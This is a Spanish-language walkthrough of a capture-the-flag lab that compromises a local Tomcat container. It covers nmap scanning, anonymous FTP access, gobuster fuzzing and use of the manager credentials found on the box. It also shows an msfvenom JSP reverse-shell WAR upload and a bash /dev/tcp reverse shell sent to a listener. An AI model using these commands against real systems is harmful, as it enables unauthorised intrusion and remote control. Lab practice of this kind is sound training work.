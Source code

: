 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pn.tar
```

![[Pasted image 20250203124154.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250203124223.png]]

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![[Pasted image 20250203124312.png]]

```Bash
anonymous
```

![[Pasted image 20250203124328.png]]

```Bash
'blank'
```

![[Pasted image 20250203124340.png]]

```Bash
ls
```

![[Pasted image 20250203124409.png]]

```Bash
get tomcat.txt
```

![[Pasted image 20250203124434.png]]

```Bash
cat tomcat.txt
```

![[Pasted image 20250203124645.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250204152455.png]]

Nos metemos en la web:

![[Pasted image 20250203124745.png]]

![[Pasted image 20250203125031.png]]

![[Pasted image 20250203124932.png]]

tomcat: s3cr3t

![[Pasted image 20250203125055.png]]

![[Pasted image 20250204144739.png]]

Creamos payload para subir:

```Bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o shell.war
```

![[Pasted image 20250204151401.png]]

Lo subimos:

![[Pasted image 20250204150907.png]]

![[Pasted image 20250204150933.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250204151015.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250204152406.png]]

Pinchamos en la shell subida:

![[Pasted image 20250204152912.png]]

Miramos en la shell:

![[Pasted image 20250204152129.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250204152103.png]]

Miramos la otra shell:

![[Pasted image 20250204152256.png]]

```Bash
whoami
```

![[Pasted image 20250204152315.png]]